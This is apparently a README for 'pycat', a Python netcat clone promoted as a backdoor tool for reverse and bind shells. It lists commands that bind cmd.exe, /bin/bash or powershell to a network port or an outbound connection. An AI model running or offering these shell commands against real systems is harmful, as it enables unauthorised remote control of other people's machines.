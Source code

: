 The best python backdoor shell in the world. 

We can absolutely sure this is the best PYTHON SHELL in the 
world until now. You try it now.

Python netcat for reverse or bind shell. Py-shell is a custom 
network tool to create backdoor shell (pentesting) and some 
other network purpose like connection testing or remote command 
excution (for who want to help others remotely).

Usage:

**python3 pycat.py -l -p [PORT] -e [FILENAME]**

**python3 pycat.py -t [ADDRESS] -p [PORT] -e [FILENAME]**

****
Example usage:


*python3 pycat.py -l -p 4444*

*python3 pycat.py -t 127.0.0.1 -p 4444*

*python3 pycat.py -l  -p 8080 -e cmd.exe*

*python3 pycat.py -t 127.0.0.1 -p 8080 -e /bin/bash*

*python3 pycat.py -l -p 5000 -e powershell*



Created by toidihack(hacking at HackerOne and Bugcrowd)

